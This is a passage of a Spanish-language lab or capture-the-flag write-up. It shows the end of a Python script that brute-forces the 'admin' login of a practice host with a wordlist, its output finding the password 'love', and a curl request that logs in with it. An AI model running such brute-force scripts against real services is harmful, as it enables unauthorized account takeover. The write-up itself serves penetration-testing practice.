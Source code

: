 ```python
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Uso: python3 script.py <wordlist.txt>")
    else:
        url = "http://secure-api-register.dl/login"
        username = "admin"
        wordlist = sys.argv[1]
        brute_force(url, username, wordlist)
```

Lo ejecutaremos de la siguiente forma:

```shell
python3 brutePass.py <WORDLIST>
```

Info:

```
.................................................................................
[*] Probando: julian
[*] Probando: travis
[*] Probando: myspace1
[*] Probando: babyblue
[*] Probando: sabrina
[*] Probando: michael1
[*] Probando: jeffrey
[*] Probando: stephen
[*] Probando: love
[+] Credenciales válidas encontradas: admin:love
```

Veremos que nos saco la contraseña`love`, si lo probamos en la web entraremos a un panel de administrador, pero que aparentemente no veremos nada en especial.

## Curl

Vamos a probar a utilizar `curl` enviando esa peticion de la misma forma, pero con otro tipo de respuesta para intentar interactuar directamente mediante `curl` de la siguiente forma:

```shell
curl -X POST http://secure-api-register.dl/login \  
    -H "Content-Type: application/json" \
    -d '{"username": "admin", "password": "love"}'
```

Info:

```
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/admin">/admin</a>. If not, click the link.
```

